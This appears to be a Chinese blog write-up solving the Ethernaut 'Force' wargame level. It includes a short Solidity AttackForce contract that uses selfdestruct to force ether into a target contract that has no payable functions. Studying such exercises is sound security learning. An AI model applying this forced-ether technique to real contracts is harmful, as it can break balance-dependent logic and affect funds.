 ```yaml
---
title: Ethernaut - Force
categories: [Ethernaut]
tags: [以太坊, 智能合约, Ethernaut]
date: 2024-12-22
---
```


第一个三星题。

这个合约啥也没有，目标是让合约的balance超过0。

<!--more-->

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force { /*
                   MEOW ?
         /\_/\   /
    ____/ o o \
    /~____  =ø= /
    (______)__m_m)
                   */ }
```



这个题需要有额外知识：

selfdestruct 是 Solidity 中的一个操作符，用于销毁合约并将其剩余的以太币转移到指定地址。调用该操作后，合约的代码和状态被从区块链中删除，合约余额会发送到指定的地址，释放存储空间。

```solidity
selfdestruct(address payable recipient);
```



所以写一个智能合约：

```solidity
contract AttackForce {
    function attack(address payable target) public payable {
        selfdestruct(target);
    }

    receive() external payable {}
}
```

先给他转钱，然后销毁他把钱强行扔给Force合约。

<img src="./08-Force/image-20241222151712979.png" alt="image-20241222151712979" style="zoom:50%;" />